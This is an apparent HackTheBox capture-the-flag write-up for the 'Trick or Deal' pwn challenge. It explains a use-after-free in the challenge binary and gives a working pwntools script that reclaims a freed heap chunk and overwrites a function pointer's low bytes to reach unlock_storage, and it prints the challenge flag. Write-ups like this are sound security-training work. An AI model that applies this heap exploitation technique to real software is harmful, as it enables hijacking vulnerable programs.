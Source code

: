 # Trick or Deal
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eee9797c-97fd-4c19-aded-caba8fc7150f)


## Lessons Learned:
1. Heap-Based Exploitation.
2. Use After Free.
3. Implemen arbitrary chunk data read using UAF.

## DESCRIPTION:
Bonnie and his crew arrive to planet Longhir to get equipped with the latest weaponry, but the intergalactic weapon dealer refuses to sell them weapons because he has a trade agreement with Draeger, the Alien Overlord,thus Bonnie has to employ his neat exploitation tricks to persuade the dealer into selling them weapons.

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ file trick_or_deal
trick_or_deal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=782a7adfe9057b833b6d03e6c72d0d00234b732b, not stripped
```

> BINARY PROTECTIONS

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ pwn checksec trick_or_deal 
[*] '/home/brandy/Downloads/trickor/challenge/trick_or_deal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

2. After decompiled the binary, found the vuln at the `steal()` function.

> USE AFTER FREE (UAF) VULN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0459f894-b235-456b-a158-8178edf8bbd9)


3. And it seems our goal is at the `unlock_storage()`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4be67cc-3490-4434-bfb8-76819fee077c)


4. The pwn concept here is ret2win, but the problem is the PIE enabled and there is no potential overflow. We can leak the PIE at `buy()` by sending 7 bytes, but we won't be able to use it because there is no overflow.
5. Anyway we can still do get inside the `unlock_storage()` using the **UAF** with modifying the last 2 bytes (least significant bytes) of the function pointer. The goal is to change **printstorage** to **unlock_storage**.

#### NOTES:

```
update_weapons() is called at the main(), and it allocates a chunk on the heap. The chunk is saved in a global variable named storage with a size of 80 bytes (0x50) and it copies it's value and a pointer to the printstorage(). (Only in the last 8 bytes). 
```


6. But why printstorage shall be our interest? Here's why:

> WITH GDB - CHECKING THE HEAP CHUNKS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/61265489-8ae5-4c02-b200-5b957478fbc4)


> PROOF (80 sized chunk holds a string and also the printstorage() pointer

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/327b93d0-d395-43c0-88fc-a48fa4fc9505)


### FLOW

```
At first, we free the storage by calling the steal(), since storage is not set to NULL,
hence we can use the chunk later (it just freed, does not remove the contents).

Next we do malloc by calling the make_offer() and make a size of 80 to take the original chunk.
Since we only need the last 2 bytes, hence we can fill the rest (72 buffer) with junk. Now we will get RCE at option 1. 
```

> SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './trick_or_deal'
elf = context.binary = ELF(exe, checksec=True)
#context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()

sh.sendlineafter(b'?', b'4')
sh.sendlineafter(b'?', b'3')
sh.sendlineafter(b':', b'y')
sh.sendlineafter(b'?', b'80') # 0x50

p = flat([
    asm('nop') * 72, #0x48
    # since last 2 bytes hence --> pack 16
    p16(elf.sym['unlock_storage'] & 0xffff) # Overwriting the last 2 bytes 
])

sh.sendafter(b'?', p) ## dunno why it can't send with the \n, but we get RCE without sending the newline.
sh.sendlineafter(b'?', b'1') # get RCEEEE
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/641dc649-6b51-4c94-aedc-9b0b3469dd93)


> TEST REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d505c310-2d8c-45c6-a9c3-be0f622df283)


## FLAG

```
HTB{tr1ck1ng_41nt_ch34t1ng}
```



